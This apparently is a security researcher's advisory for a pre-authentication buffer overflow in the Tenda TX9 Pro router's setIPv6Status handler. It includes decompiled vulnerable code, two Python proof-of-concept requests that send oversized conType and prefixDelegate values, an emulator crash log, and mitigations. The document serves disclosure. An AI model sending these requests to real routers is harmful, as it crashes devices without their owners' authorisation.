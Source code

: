 ## Multiple Pre-Auth Buffer Overflow in Tenda Router TX9 Pro

----
- Related products：[TX9 Pro](https://www.tendacn.com/product/download/TX9Pro.html) Update Date：2021/12/24
- Hardware Version: V1.0
- Software Version: V22.03.02.10
- Download: [TX9 Pro Firmware-Tenda-All For Better NetWorking (tendacn.com)](https://www.tendacn.com/download/detail-4219.html)
----

- Author: anhnlq (aka h4niz) from VNG Cloud
- Date: 19/04/2022

----

### Root cause
I found a vulnerability in `setIPv6Status()` function, the root cause was lack of validate length of user input. The vulnerability code below:
```
int __fastcall setIPv6Status(_DWORD *a1)
{
[Truncated]
  int v21[2]; // [sp+2Ch] [-1Ch] BYREF
  int v22[4]; // [sp+34h] [-14h] BYREF

[Truncated]
  v3 = get_data_from_parameter((int)a1, (int)"conType", (int)"DHCP");
  sub_421BEC(v20, 0x19, v3);
  strcpy((int)v22, (int)v3);
  v4 = get_data_from_parameter((int)a1, (int)"ISPusername", (int)"");
  sub_421BEC(v20, 0x1F, v4);
  v5 = get_data_from_parameter((int)a1, (int)"ISPpassword", (int)"");
  sub_421BEC(v20, 0x20, v5);
  v6 = get_data_from_parameter((int)a1, (int)"prefixDelegate", (int)"0");
  sub_421BEC(v20, 0x1A, v6);
  strcpy((int)v21, (int)v6);
[Truncated]
  return _stack_chk_guard;
}
```

By using `get_data_from_parameter()`, the name of function is changed, to get input from user and pass to `v3`/`v6` variables. I don't know why but most of get data method is have done by `GetValue()` function that validates length of input before assigns it to variable. After that, `v3`/`v4` variable is copied to `v22`/`v21` that is trigged buffer overflow by `strcpy()` function.

----

### POC1
```
#-*- encoding: utf8 -*-
import requests

# Product: Tenda Router
# Related products：TX9 ProUpdate Date：2021/12/24
# Hardware Version:V1.0
# Software Version:V22.03.02.10


url = "http://192.168.1.13/goform/setIPv6Status"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'conType': payload})
```

### POC2
```
#-*- encoding: utf8 -*-
import requests

# Product: Tenda Router
# Related products：TX9 ProUpdate Date：2021/12/24
# Hardware Version:V1.0
# Software Version:V22.03.02.10


url = "http://192.168.1.13/goform/setIPv6Status"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'prefixDelegate': payload})
```

### Router output log:
```
 sudo qemu-mips -L firmadyne/images/1 firmadyne/images/1/usr/sbin/httpd 


Yes:

      ****** WeLoveLinux****** 

 Welcome to ...
main_test 481: g_lan_ip 0.0.0.0  admin
[httpd][debug]----------------------------webs.c,158
Unsupported setsockopt level=65535 optname=128
httpd listen ip = 0.0.0.0 port = 80
webs: Listening for HTTP requests at address 0.0.0.0
Unsupported setsockopt level=65535 optname=128
[192.168.1.13]..........
web [192.168.1.13] login time expired.
Unsupported setsockopt level=65535 optname=128
[192.168.1.13]..........
[ERROR][td_rpc_call         ][75   ]connect:Connection refused
[ERROR][td_rpc_invok        ][100  ]Call RPC Failed
[ERROR][td_rpc_call         ][75   ]connect:Connection refused
[ERROR][td_rpc_invok        ][100  ]Call RPC Failed
[ERROR][td_rpc_call         ][75   ]connect:Connection refused
[ERROR][td_rpc_invok        ][100  ]Call RPC Failed
qemu: uncaught target signal 11 (Segmentation fault) - core dumped
Segmentation fault
```


## Mitigation:
- Validate data length before passing to `strcpy()`
- Or use `strncpy()` instead of `strcpy()`